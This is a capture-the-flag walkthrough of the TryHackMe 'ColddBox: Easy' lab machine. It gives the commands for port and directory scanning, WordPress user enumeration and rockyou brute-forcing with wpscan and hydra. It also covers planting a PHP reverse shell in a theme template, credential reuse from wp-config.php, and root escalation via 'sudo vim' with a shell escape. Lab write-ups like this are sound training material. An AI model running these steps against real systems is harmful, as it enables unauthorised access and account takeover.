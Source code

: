 ```bash
# PLATFORM          . THM
# CTF NAME          . ColddBox: Easy
# DESCRIPTION       . An easy level machine with multiple ways to escalate privileges.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/colddboxeasy
```

```
sudo nmap -sSVC -T5 -p- -oN coldbox 10.10.39.162
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)

4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
ffuf -u http://10.10.39.162/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 100
```

```
hidden                  [Status: 301, Size: 313, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 317, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10]
xmlrpc.php              [Status: 200, Size: 42, Words: 6, Lines: 1]
```

- Alright, so we have some interesting results.
- `/hidden` directory gives us a list of possible usernames in the form of a message on the `index.html` page.

```
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

- Alright, back to the main page. By inspecting the source code, we can see the wordpress version used

```
<meta name="generator" content="WordPress 4.1.31" />
```

- Alright. Technically, we could assume that the users are `hugo`, `philip` and `c0ldd`, but let's use `wpscan` to see what it finds.

```
wpscan --url http://10.10.39.162 -e
```

```
User(s) Identified:

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

- Alright. We also have the login panel in `/wp-admin/` directory, so let's brute-force it.

- We can use either `hydra` or `wpscan`.

**WPSCAN** 

```
wpscan --url http://10.10.39.162 -U philip,c0ldd,hugo -P /usr/share/wordlists/rockyou.txt
```

```
+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / {redacted}   
```

**HYDRA**

```
sudo hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.39.162 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location" -t 64
```

```
[80][http-post-form] host: 10.10.39.162   login: c0ldd   password: {redacted}
```

**NOTE**: `users.txt` is a file containing our usernames, each on a separate line.

- Alright. So we have credentials for the `/wp-admin` page.

- After logging in, the most obvious way for me to escalate my access to the server was to edit one of the existing `.php` pages with a reverse shell.

- So I went to `Appearance -> Editor` and on the right hand side of the screen we see `Templates`.

- Here, I chose to edit the `404 Template` which is the content displayed when the `404` error occurs.

- I replaced the existing code with pentestmonkey's PHP reverse shell code and accessed it via `ip/wp-content/themes/twentyfifteen/404.php` after setting up my listener. 

- Now we're under `www-data` on the server. I know that the `wp-config.php` file is the file that contains the database config of wordpress, so let's take a look here first.

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', '{redacted}');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

- We have the password of the mysql, but the username is `c0ldd`. 
- I tried reading the flag from `/home/c0ldd/user.txt` and I don't have permissions, so I assume we must escalate privileges first to `c0ldd` and then root.

- The user `c0ldd` has the same password as in the config for his own account - `su c0ldd`

```
sudo -l

(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```

- We can use any of these binaries to escalate privileges to root.

- I chose vim since I knew the command from the top of my head, but you can check GTFObins to see how to escalate privileges using each one of them

```
sudo /usr/bin/vim

<ESC>
:!/bin/bash
<ENTER>
```

- The user flag is in `/home/c0ldd/user.txt`
- The root flag is in `/root/root.txt`

**NOTE**: I identified multiple ways to get on this system.

- First of all the `xml-rpc.php` file is exposed, which, was previously used as a way for programs / apps to interact with wordpress; 

- This can be further abused to result in a DoS or to bruteforce credentials, depending on what methods we find active by sending the methodCall below

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

- However, I didn't had time to try this too, so, if this isn't updated, consider this a reminder for future self.

- Also, after getting access to the `wp-admin` panel, you could technically upload a custom `PHP plugin` that would allow RCE, thus, leading to another way of gaining access on the system.

